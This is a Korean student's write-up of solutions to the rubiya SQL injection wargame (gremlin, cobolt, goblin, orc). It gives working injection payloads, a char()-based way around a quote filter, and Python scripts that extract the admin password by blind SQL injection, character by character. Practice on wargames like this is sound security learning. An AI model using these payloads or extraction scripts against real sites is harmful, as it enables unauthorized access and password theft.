 ## 수업내용 떠올리기

1. url 뒤에 ?를 붙여서 query 에 내용을 넣을 수 있음(ex : ~~.php?id=admin)
2. query에서 #으로 뒷내용 주석화 시킬수있음
3. 따옴표를 사용할 수 없을때는 char(x,x,x,x)등 함수 이용
4. url encoding


***

## rubiya 사이트 난이도별 풀이

* gremlin
    * ```php
      if($result['id']) solve("gremlin");
      ```
      이 구문을 통해서 문제를 해결하는데에 pw는 상관없다는걸 알 수 있다.
      그렇기에 'id'를 TRUE로 만들어 버리면 된다. 즉 id를 요구하는 구문에
      ```
      ?id=' or 1=1%23
      ```
      를 inject해서 id자체를 TRUE로 만든 뒤 뒷부분을 #(%23) 으로 날려버리면 해결!
* cobolt
    * ```php
      if($result['id'] == 'admin') solve("cobolt");
      ```
      이 구문을 통해서 id가 admin이기만 하면 풀리는 것을 알 수 있다.
      ```
      ?id=admin'%23
      ```
      하면 풀린다. 추가로 수업에서 배운 내용으로
      ```
      ?id=' or 1=1%23
      ```
      을 inject 하면 elseif 구문으로 넘어간다.

      근데 왜 Hello {$result['id']} 에서 Hello rubiya가 나오는지는 모르겠다.
* goblin
    * ```php
      if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
      if($result['id'] == 'admin') solve("goblin");
      ```
      다옴표를 쓰지 말고 id를 admin으로 만들라고 한다.

      수업때 배운 char() 함수를 이용하면
      ```
      ?no=2 or id=char(97,100,109,105,110)
      ```
      을 삽입하여 문제를 해결한다. 
      
      여기서 no를 2로 한 이유는 잘 모르겠는데

      아마도 id=guest 이면서 no=1에 해당하는 데이터가 있어서 그 뒤 or까지 안넘어가는 것 같다. 
    
***

## orc(과제)
blind sql을 이용해서 내가 제시한 조건이 true 인지 false인지 판단한다.

이걸 이용해서 true 인 조건들을 취합하여 문제를 해결한다.
```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```
이걸 보니까 여태껏처럼 id까지 맞춘 후 pw부분을 주석처리해서 날려버리는 방식이 아니라 진짜 pw를 알아내야하는 것 같다.

처음부터 끝까지 brute force를 사용하는것도 가능하겠지만 10년도 더 된 내 컴퓨터가 감당하지 못할 것 같기 때문에 pw의 길이부터 알아내보자.
```
?pw=jnj' or 1=1%23
```
을 해보니까 hello admin이 나온다. 1=1%23부분을 조작해서 pw의 길이를 알아내보자.(blind sql)
```
?pw=jnj' or length(pw)=X%23
```
노가다 해보니까 pw의 길이는 4였다.

<mark>근데 이상한 점은, pw의 길이를 8로 입력했을때도 Hello admin이 출력되었다는 것이다.</mark>

일단은 제쳐두고 pw의 길이를 4라고 가정한 후 풀어보았다.

이제 각각의 자리를 substr을 이용해서 알아내보자.

[인용](https://girrr.tistory.com/93)(https://girrr.tistory.com/93)

이 사이트는 강사님이 주신 사이트인데, 여기나온 방법대로는 파이썬에서 오류가 발생해서 

[인용](https://jaeseokim.tistory.com/26)(https://jaeseokim.tistory.com/26)

사이트를 인용하였다.

#### gremlin으로 테스트
```python
import requests

url='https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php'
cookies={'PHPSESSID':'내쿠키'}
injection="' or 1=1#"
params={'id':injection}
response=requests.get(url,params=params,cookies=cookies)
print(response.text)
```

gremlin으로 테스트 해보니 성공하였다. 

길이가 4인것은 알고있으니 substr을 이용해 각 자리의 비밀번호를 알아내보기로 하자.
```python
import requests

# chr(32) 에서 chr(126) 까지만 테스트 해 보면 될 것 같다.
# chr(32) 과 chr(126) 사이에 모든 특수문자와 영어대소문자가 포함되어있기 때문이다.
url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies={'PHPSESSID':'내쿠키'}
for i in range(1,5):
    for passkey in range(32,126):
        injection="jnj' or substr(pw,"+str(i)+",1)='"+chr(passkey)+"'#"
        params={'pw':injection}
        response=requests.get(url,params=params,cookies=cookies)
        if "Hello admin" in response.text:
            print(chr(passkey))
            break
```
해당 코드를 돌렸더니 비밀번호는 095A 가 나왔다.

근데 정답이 아니었다. 여기서 멘탈이 한번 나갔다. 아까 제쳐두었던 부분이 문제가된것 같았다.

이유을 찾기위해 인터넷 검색을 해보다 보니까 sql에서는 and연산자가 or 연산자보다 우선시 되어 계산된다는 것을 알게 되었다.

우리의 쿼리는
```
select id from prob_orc where id='admin' and pw='' or substr(pw,1,1)=0#'
```
이것이기 때문에 id가 무엇인가에는 관계 없이 그저 length(pw)=8의 참 거짓 여부만 참조한다.

아마 내 추측으로는, 이 데이터베이스 속에 admin이 아닌 다른 계정또한 존재한다는 것이다.

이것을 피해가기 위해서는 'id=admin'을 and 문과 엮어 확실히 id가 admin일때의 pw를 구해내야 할 것 같았다.

그래서 수정된 나의 파이썬 코드는
```python
import requests

# chr(32) 에서 chr(126) 까지만 테스트 해 보면 될 것 같다.
# chr(32) 과 chr(126) 사이에 모든 특수문자와 영어대소문자가 포함되어있기 때문이다.
url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies={'PHPSESSID':'내 쿠키'}
for i in range(1,9):
    for passkey in range(32,126):
        injection="jnj' or id='admin' and substr(pw,"+str(i)+",1)='"+chr(passkey)+"'#"
        params={'pw':injection}
        response=requests.get(url,params=params,cookies=cookies)
        if "Hello admin" in response.text:
            print(chr(passkey))
            break
```
이를 통해 알게된 pw는 095A9852이다.

근데 또 안됐다. ???????

대문자 소문자 문제였다. 진짜 pw는 095a9852이다.
